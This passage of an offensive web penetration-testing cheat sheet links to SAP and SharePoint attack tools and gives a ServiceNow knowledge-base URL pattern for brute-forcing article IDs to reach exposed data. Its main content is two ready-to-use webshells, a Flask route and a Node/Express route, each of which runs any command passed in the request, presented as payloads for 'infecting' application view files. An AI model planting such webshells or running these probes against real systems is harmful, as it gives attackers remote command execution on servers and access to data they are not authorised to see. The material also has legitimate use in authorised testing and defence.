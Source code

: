 #### Others
https://github.com/shipcod3/mySapAdventures

### ServiceNow
-> Brute-Force in KB00<here>  
```
https://company.service-now.com/kb_view_customer.do?sysparm_article=KB00xxxxx
```
https://medium.com/@th3g3nt3l/multiple-information-exposed-due-to-misconfigured-service-now-itsm-instances-de7a303ebd56

### Sharepoint
https://github.com/H0j3n/EzpzSharepoint

## Some payloads for webshells and revshells
### Webshell Infecting views.py - Python (Flask)
```
import os
from flask import Flask,request,os

app = Flask(__name__)
   
@app.route('/okay')
def cmd():
    return os.system(request.args.get('c'))

if __name__ == "__main__":
	app.run()
```
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/views.py
	
### Webshell infecting views.js -> nodejs
```
const express = require('express')
const app = express();

app.listen(3000, () => 
	console.log('...')
);
function Exec(command){ 
	const { execSync } = require("child_process");
	const stdout = execSync(command);
	return "Result: "+stdout
}
app.get('/okay/:command', (req, res) => 
res.send(Exec(req.params.command))
);
```
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/views.js
